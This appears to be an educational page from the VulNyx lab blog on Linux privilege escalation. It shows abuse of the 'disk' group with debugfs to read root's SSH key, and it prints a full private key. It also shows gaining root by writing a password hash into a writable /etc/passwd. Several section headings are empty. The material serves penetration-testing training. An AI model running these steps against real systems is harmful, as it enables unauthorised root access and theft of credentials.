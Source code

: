 ```yaml
---
title: 🐧 Privilege Escalation (Linux)
date: 0003-01-01
layout: post
---
```


### Groups

#### disk

When a user is part of a `disk` **group**, he or she is granted direct access to the system disks and partitions.

**Check Group**

```ruby
low@vulnyx:~$ id
uid=1000(low) gid=1000(low) groups=1000(low),6(disk)
```

**Abuse Group**

```ruby
low@vulnyx:~$ df -h
Filesystem      Size  Used Avail Use% Mounted on
udev            480M     0  480M   0% /dev
tmpfs            99M  3.2M   96M   4% /run
/dev/sda1        11G  2.2G  8.1G  21% /
tmpfs           494M     0  494M   0% /dev/shm
tmpfs           5.0M     0  5.0M   0% /run/lock
tmpfs           494M     0  494M   0% /sys/fs/cgroup
tmpfs            99M     0   99M   0% /run/user/1000
```
```ruby
low@vulnyx:~$ /usr/sbin/debugfs /dev/sda1
debugfs 1.44.5 (15-Dec-2018)
debugfs:  ls /root
debugfs:  ls /root/.ssh/
debugfs:  cat /root/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAstkGmc1W+epM0w13VQrLO/wMNWwxFltotpa9elYJVXSlBc+PgF6I
vnpxKBu/BFHAogrQt/i7MI3+64POT6X8nVWokKi9raRlaSFl2k8373C+lLyzt/JewfThUl
VQINQ33vGIemNAbvJkqmMveAthMFEnAnNCnB6jct/Mhr74LjWgmX47tjrTxh3rdUF3SyVV
J6HJMX015n+1md/zGX6CcjqaZGdCi5WY6xJHFkpp9yyszID8fmouUnQOq66C52Dbv5QNxV
H8wSpH0HfTP3lqqMiXga8kUQGrHkfzmDT66wpTT6xvEHEa6zApu1PrDiW5K3EGhpTR/ylm
GhcjB2iDrwAAA8CEFaHVhBWh1QAAAAdzc2gtcnNhAAABAQCy2QaZzVb56kzTDXdVCss7/A
w1bDEWW2i2lr16VglVdKUFz4+AXoi+enEoG78EUcCiCtC3+Lswjf7rg85PpfydVaiQqL2t
pGVpIWXaTzfvcL6UvLO38l7B9OFSVVAg1Dfe8Yh6Y0Bu8mSqYy94C2EwUScCc0KcHqNy38
yGvvguNaCZfju2OtPGHet1QXdLJVUnockxfTXmf7WZ3/MZfoJyOppkZ0KLlZjrEkcWSmn3
LKzMgPx+ai5SdA6rroLnYNu/lA3FUfzBKkfQd9M/eWqoyJeBryRRAaseR/OYNPrrClNPrG
8QcRrrMCm7U+sOJbkrcQaGlNH/KWYaFyMHaIOvAAAAAwEAAQAAAQBFdRunJ6Qbsu7bGGO7
11FOnnhvVvFJaX6lSq2TkU5WrdJZC18Dz7LzpsHDfeMVXlqdk+2zRRoNpVfXR30cWa5dvC
KW67GeejYYOixAOHvUtciOIyr4yVwbn2rSeud/mGuKXetO/LTNYb3Onm6VBHZeOWYZAYJg
91UrC9d2jTv9VZer6rtGJJKVdO8XrVgrciQU2GQgk0bBhcxXV4XOC7wYsoIdEuvkQG53Wu
PZmbU0uoIE6MSVtm3dct7uEt190KAkUNxKOflDmWUgjcyKODeQj/pwUgRaXzNTRaa+tuBU
9I0YwCS+LKt+KvyxO5DrbBDs5egoR3Pdz+Btcivn2i2hAAAAgCYIx3jhzhe5gwS5MnB6yW
LlszD7QWvNm+hhoO8NqIhCEOPRMwMN7fNJ3ACfkh4Tin1YObuUba8Ekn3cJSCt7fZ9Rh4k
tNsRoTZL6Az78gyAq2+OpZYQfLhxSDeypBRcih2ysvuXXZRVk1CEFe1XqNSn4wE82knfk/
qAGo5gPpwiAAAAgQDnpzswlg0aC/RfTdrGh9HuHc8fJQUgBbt3ofKz+ulOKSnnmlfDasK9
ATzM2Ee7HOmV0xXaAaXDsRXkgjoSQow9QWhDiLpR5eRbjjXEY3xcTpqQA1yNNqLkJmA1yP
QnRSJDbLQspSdlC6YDzHa0FcwkK14b0IN2AM7+APXsAQ2MywAAAIEAxaUIB8cQoUkdEeGD
QdVyjBpQQrjARPt5tmnTm1tmJpobkrpmTw7/VDYFUnJ/k7YYiUfsqyw7RJJQPYtnNTanBB
IYohf/jZd0WBAEsTzmtYLHcjo+ln7gMDtyKVj+SqhkXDHaeOkzpW4Ev5RB+clZLRwrAWuu
gaN4ZcqmaVXfzC0AAAALcm9vdEBzYXRvcmk=
-----END OPENSSH PRIVATE KEY-----
```

#### adm

#### docker

#### lxd

#### fail2ban

#### video

---

### /etc/passwd (Writable)

If a low-privileged user has permissions to write to the `/etc/passwd` file, an attacker can remove the `:x:` (on the `root` user line) and add a **hash**.  
This will change the file where a user's authentication is performed, from being done through the `/etc/shadow` file to being done through the `/etc/passwd` file.

**Check Permissions**

```ruby
low@vulnyx:~$ ls -l /etc/passwd
-rw----rw- 1 root root 1395 abr 21 20:16 /etc/passwd
```

**Create Hash**

```ruby
root@kali:~# openssl passwd -1 "P@ssword123"
$1$TSMXnd0L$DwQWYa.zuPqtZUjyRLWxy0
```

**Add Hash**

```ruby
# before
low@vulnyx:~$ cat /etc/passwd |grep root
root:x:0:0:root:/root:/bin/bash

# after
low@vulnyx:~$ cat /etc/passwd |grep root
root:$1$TSMXnd0L$DwQWYa.zuPqtZUjyRLWxy0:0:0:root:/root:/bin/bash
```

**Authenticate**

```ruby
low@vulnyx:~$ su -
Password:

root@vulnyx:~# id
uid=0(root) gid=0(root) grupos=0(root)
```

---

#### Disclaimer

> ##### WARNING
> All techniques presented in this blog are for educational and ethical purposes.  
> The [VulNyx](https://vulnyx.com) team is not responsible for any misuse or damage caused to third party systems or infrastructure.
{: .block-warning }

<br><br>
<div style="display: flex; justify-content: center; align-items: center; width: 100%; margin-top: 20px;">
  <img src="/assets/gitbook/images/favicon.png" style="width: 30px; height: auto; margin-right: 6px;">
  <span>© VulNyx 2023-2025</span>
</div>
